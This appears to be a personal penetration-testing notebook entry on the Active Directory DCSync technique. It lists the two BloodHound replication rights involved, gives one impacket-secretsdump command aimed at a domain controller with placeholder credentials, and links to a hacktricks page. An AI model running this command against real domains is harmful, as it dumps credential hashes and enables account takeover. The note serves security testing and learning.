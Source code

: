 +++
title = "Pentest - Active Directory - DCSync"
author = ["svejk"]
tags = ["exploit", "pentest", "windowsExploitation"]
draft = false
+++

## DCSync {#dcsync}

In BloodHound

-   GetChanges
-   GetChangesAll

<!--listend-->

```shell { linenos=true, linenostart=1 }
impacket-secretsdump "<domain>/user:password"@"dc.domain.com"
```

[hacktricks - DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
